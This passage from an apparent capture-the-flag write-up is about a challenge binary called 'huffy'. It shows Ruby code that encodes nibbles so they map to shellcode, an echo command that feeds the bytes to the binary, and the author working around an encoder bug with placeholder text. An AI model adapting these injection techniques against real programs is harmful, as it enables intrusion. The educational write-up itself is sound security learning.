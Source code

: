   <span class="Constant">0</span>.step(needed_nibbles.length - <span class="Constant">1</span>, <span class="Constant">2</span>) <span class="Statement">do</span> |<span class="Identifier">i</span>|
    n1 = needed_nibbles[i]
    n2 = needed_nibbles[i+<span class="Constant">1</span>]

    result += ((encode_nibble(n1) &lt;&lt; <span class="Constant">4</span>) | (encode_nibble(n2) &amp; <span class="Constant">0x0f</span>)).chr
  <span class="Statement">end</span>

  <span class="Statement">return</span> result
<span class="rubyDefine">end</span>
</pre>

And now "out" should contain a bunch of nibbles that will map to shellcode! Should!

Finally, we output it:

<pre>
<span class="rubyDefine">def</span> <span class="Identifier">output</span>(str)
  print <span class="Special">&quot;</span><span class="Constant">echo -ne '</span><span class="Special">&quot;</span>
  str.bytes.each <span class="Statement">do</span> |<span class="Identifier">b</span>|
    print(<span class="Special">&quot;</span><span class="Special">\\</span><span class="Constant">x%02x</span><span class="Special">&quot;</span> % b)
  <span class="Statement">end</span>
  puts(<span class="Special">&quot;</span><span class="Constant">' &gt; in; ./huffy &lt; in</span><span class="Special">&quot;</span>)
<span class="rubyDefine">end</span>
</pre>


<h2>Hacking around a bug</h2>

Did you notice what I did wrong? I made a big mistake, and in the heat of the contest I didn't have time to fix it properly. When I tried to encode "hello world, this is my shellcode!", I get:

<pre>
<span class="Statement">echo</span><span class="Constant"> -ne </span><span class="Statement">'</span><span class="Constant">\x4f\x46\x48\x48\x4a\x30\x55\x4a\x53\x48\x47\x38\x30\x57\x4f\x4e\x52\x30\x4e\x52\x30\x49\x5e\x30\x52\x4f\x46\x48\x48\x42\x4a\x47\x46\x31\x00\x00\x00\x00\x00\x00\x00\x01\x11\x11\x11\x11\x11\x11\x11\x11\x11\x33\x33\x33\x33\x33\x33\x22\x22\x22\x22\x22\x22\x22\x22\x77\x77\x77\x77\x77\x77\x77\x77\x76\x66\x66\x66\x66\x66\x66\x66\x66\x55\x55\x55\x55\x55\x55\xff\xff\xff\xff\xff\xff\xff\xff\xfe\xee\xee\xee\xee\xee\xee\xee\xee\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xdd\xdd\xdd\xdd\xdd\xdd\xdd\xdd\xdd\xdd\x88\x88\x88\x88\x88\x88\x88\x99\x99\x99\x99\x99\x99\x99\x99\x99\x9b\xbb\xbb\xbb\xbb\xbb\xbb\xbb\xbb\xbb\xba\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa</span><span class="Statement">'</span><span class="Constant"> </span><span class="Statement">&gt;</span> <span class="Error">in</span>; ./huffy <span class="Statement">&lt;</span> <span class="Error">in</span>
</pre>

Which works out to:

<pre>
ajcco@?o?cbC@?ai?@i?@k?@?ajcclobj?????????DDDDDD????????""""""""*??????????????????????UUUUUUUUUU??????????3333333??????????wwwwwwwww????????
</pre>
